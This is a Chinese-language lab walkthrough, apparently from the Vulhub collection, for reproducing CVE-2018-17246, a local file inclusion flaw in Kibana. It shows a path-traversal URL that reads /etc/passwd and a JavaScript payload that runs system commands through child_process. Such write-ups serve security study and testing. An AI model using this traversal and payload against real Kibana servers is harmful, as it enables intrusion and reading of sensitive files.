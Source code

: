 # Kibana 本地文件包含漏洞 CVE-2018-17246

## 漏洞描述

Kibana 为 Elassticsearch 设计的一款开源的视图工具。其5.6.13到6.4.3之间的版本存在一处文件包含漏洞，通过这个漏洞攻击者可以包含任意服务器上的文件。此时，如果攻击者可以上传一个文件到服务器任意位置，即可执行代码。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2018-17246
- https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/
- https://www.anquanke.com/post/id/168291

## 环境搭建

Vulhub启动 Kibana 5.6.12 和 Elasticsearch 5.6.16 环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:5601`即可看到Kibana的默认首页。

![image-20220224201606864](./images/202202242016950.png)

## 漏洞复现

直接访问如下URL，来包含文件`/etc/passwd`：

```
http://your-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
```

虽然在返回的数据包里只能查看到一个500的错误信息，但是我们通过执行`docker-compose logs`即可发现，`/etc/passwd`已经成功被包含：

![image-20220224201853518](./images/202202242018849.png)

所以，我们需要从其他途径往服务器上上传代码，再进行包含从而执行任意命令。比如，我们可以将如下代码上传到服务器的`/tmp/vulhub.js`，文件内容为：

```
export default {asJson: function() {return require("child_process").execSync("id").toString()}}
```

首先进入docker：

```
docker-compose exec kibana bash 
```

在docker内写入文件：

```
echo 'export default {asJson: function() {return require("child_process").execSync("id").toString()}}' > /tmp/vulhub.js
```

![image-20220224202447963](./images/202202242024051.png)